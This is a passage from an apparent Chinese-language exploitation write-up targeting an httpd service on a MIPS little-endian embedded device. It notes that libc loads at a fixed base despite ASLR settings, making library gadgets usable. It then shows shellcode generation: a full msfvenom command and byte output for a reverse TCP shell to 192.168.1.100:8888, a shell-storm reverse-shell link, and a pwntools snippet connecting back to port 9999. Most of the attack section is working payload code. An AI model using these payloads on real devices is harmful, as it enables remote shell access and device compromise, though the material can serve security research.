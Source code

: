 原因我也不知道为什么，如果要猜测一下，加载动态库到内存里的是`ld.so`，当`randomize_va_space`为1时，brk系统调用分配的地址仍然没有随机，难道是这个ld采用brk让动态库加载到内存中？测试将`randomize_va_space`，改为2，然后重启httpd程序，libc基址仍然没变：

```bash
$ cat /proc/sys/kernel/randomize_va_space
2
$ ps | grep httpd
  556 admin      6284 S   httpd 
  844 admin      6344 S   /usr/sbin/httpd -S 
$ cat /proc/844/maps | grep libc
2af98000-2afef000 r-xp 00000000 1f:02 986        /lib/libc.so.0
2b02f000-2b030000 r--p 00057000 1f:02 986        /lib/libc.so.0
```

故之前的猜测不对。测试其他程序，结果是不同程序启动起来的进程libc基址不同，但如果是同一个二进制程序，则启动起来的进程libc基址一直相同。问了常老师，再次猜测可能是为了效率，编译的时候就把内核的这个功能干掉了，或者当前平台压根就不支持这个功能。先存疑，总之我们发现动态库的基址都是不变的，故我们可以使用程序加载的动态库中的gadget。

#### shellcode

shellcode一般来说可以使用以下三种方式生成或者找到：

1. msfvenom
2. shell-storm
3. pwntools

总的来说还是：msf更方便好用，并且非常稳。shell-storm找到的种类多，不过偶尔需要手动修改。最后对于真实设备的利用上pwntools会有很多的问题，所以这里不推荐使用pwntools生成shellcode。使用msfvenom生成方法如下：

```c
➜  msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=192.168.1.100 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py 
➜  cat shellcode.py 
buf =  b""
buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x64\x0e\x3c\xc0"
buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
buf += b"\x01\x01"
```

另外可以在shell-storm上找到：[Linux/mips - Reverse Shell Shellcode - 200 bytes by Jacob Holcomb](http://shell-storm.org/shellcode/files/shellcode-860.php)（需要自行修改回连的IP地址）

发现这两个shellcode都是不带00并且满足要求的，如果用pwntools可以直接生成mips平台的shellcode，这个shellcode中是否直接满足没有00呢？答：是存在的00的。

```python
from pwn import *
context(arch='mips',os='linux',endian='little')
shellcode = shellcraft.mips.linux.connect('192.168.1.100',9999)+shellcraft.mips.linux.dupsh()
if "\x00" in asm(shellcode):
    print "NULL byte"
```
